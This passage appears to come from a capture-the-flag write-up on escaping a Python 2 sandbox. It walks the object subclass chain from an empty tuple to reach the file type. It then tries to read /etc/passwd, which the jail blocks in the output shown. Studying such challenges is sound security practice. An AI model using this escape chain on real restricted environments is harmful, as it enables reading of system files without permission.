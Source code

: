 The above  output tells you that an empty tuple belongs to the `tuple` class in Python. It's a way to print the type of an object in Python.

```
>>> print(().__class__.__bases__)
(<type 'object'>,)


```

The above output tells you that the `tuple` class has a single base class, which is the `object` class. In Python, all classes ultimately inherit from the `object` class, making it the root of the class hierarchy in Python's object-oriented system.

It inherits directly from object. lets see what else does:

```
malwarepeter@spaceX:~$  nc 16.16.65.31 31000
Initializing Playground...
.......
.......

Welcome to the Cyberlympic Phase2 jail! Type your commands below:
But remember, your code will be closely watched!
>>> print(().__class__.__bases__[0].__subclasses__())
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]
```

there interesting thing is `<type 'file'>`

using this `file` object

```
malwarepeter@spaceX:~$  nc 16.16.65.31 31000
Initializing Playground...
.......
.......

Welcome to the Cyberlympic Phase2 jail! Type your commands below:
But remember, your code will be closely watched!
>>> print(().__class__.__bases__[0].__subclasses__()[40])
<type 'file'>
>>> print(().__class__.__bases__[0].__subclasses__()[40]("/etc/passwd").read())
Oops! Something unexpected happened: file() constructor not accessible in restricted mode
>>>
```
